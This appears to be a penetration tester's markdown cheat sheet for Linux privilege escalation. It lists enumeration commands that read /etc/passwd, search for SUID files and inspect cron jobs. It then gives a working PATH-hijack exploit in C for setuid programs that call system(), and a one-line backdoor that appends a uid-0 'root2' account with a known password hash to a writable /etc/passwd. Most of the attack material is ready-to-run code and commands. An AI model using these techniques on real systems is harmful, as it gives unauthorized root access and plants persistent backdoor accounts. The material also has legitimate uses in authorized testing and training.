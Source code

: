 # Linux PrivEsc

# Enumeration

**Manual Chech**

```shell
$ cat /etc/passwd
$ hostname

$ cat /etc/issue      #OS info
$ cat /etc/*-release  #OS info
$ uname -a            #OS info

$ ps aux  						#Running Processes

$ ip a								#Network info
$ /sbin/route 				#Routing Table
$ ss -anp							#Net Services + PID

$ ls -lah /etc/cron* #Cronjobs list
$ cat /etc/crontab   #Cronjobs for root

$ dpkg -l 					 #Installed Packages

$ find / -writable -type d 2>/dev/null  #Open for all files

$ cat /etc/fstab		#Mounted drives
$ mount							#Mounted drives
$ /bin/lsblk				#show available disks

$ lsmod							     #loaded kernel
$ /sbin/modinfo libata	 #kernel info about "libata"

$ find / -perm -u=s -type f 2>/dev/null  #search for SUID

$ grep "CRON" /var/log/cron.log  #search in CRON logs
$ 
$ 
```

**Automated Check**

[unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check/blob/1_x/unix-privesc-check)

```shell
./unix-privesc-check standard > output.txt
```







# Setuid and Setgid

##### How to find SETUID/SETGID files

```
find / -user apache -perm -4000 -exec ls -ld {} \;
find / -user root -perm -6000 -exec ls -ld {} \;
```

##### How to exploit

Search for available CVEs to the returned binaries, If not try to exploit one.

If the app are executing applications as root, debug the app and exploit like below app

```c
int main(int argc, char **argv) {
	system("ssh lol@lol.it");
	return 0;
}
```

To exploit that we need to create malicious app and set it's path at first of PATH 

```
export PATH=exp_path:${PATH}
```

the exploit app

```c
int main(int argc, char **argv) {
	setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);
	system("id && whoami");
	return 0;
}
```

`setuid(0);` because privileges gets dropped to EUID when calling system()



# /etc/passwd open to write

```bash
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
Password: evil
root@debian:/home/student# id uid=0(root) gid=0(root) groups=0(root)
```

